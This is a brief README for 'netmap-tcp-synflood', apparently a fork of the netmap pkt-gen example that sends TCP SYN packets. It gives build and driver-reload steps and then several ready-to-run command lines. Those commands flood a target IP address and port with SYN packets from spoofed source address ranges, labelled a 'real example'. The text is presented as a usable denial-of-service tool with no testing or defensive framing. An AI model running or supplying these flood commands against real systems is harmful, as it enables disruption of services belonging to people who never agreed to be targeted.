 # netmap-tcp-synflood

Its a code from netmap pkt-gen example that can be able to send tcp syn pkts

First, compile netmap (linux): https://github.com/luigirizzo/netmap/tree/master/LINUX

After, reload nic driver (in this case is ixgbe)

	rmmod ixgbe ; modprobe mdio ; modprobe ptp ; modprobe dca ; insmod /root/netmap/LINUX/netmap.ko ; insmod /root/netmap/LINUX/ixgbe/ixgbe.ko

To compile:

	cd netmap-tcp-synflood
	make

After compiled, just run: 

	./pkt-gen -i eth2 -f tx -D <gateway_mac_address> -s <src_ip>:<src_port_range>-<dst_ip>:<dst_port_range> -d <target>:<target_port>
  
Real example :-)

	./pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1:1024-10.255.255.255:5000 -d 192.168.10.80:80
	
OR

	./pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1-10.255.255.255 -d 192.168.10.80:80

OR

	./pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1 -d 192.168.10.80:80
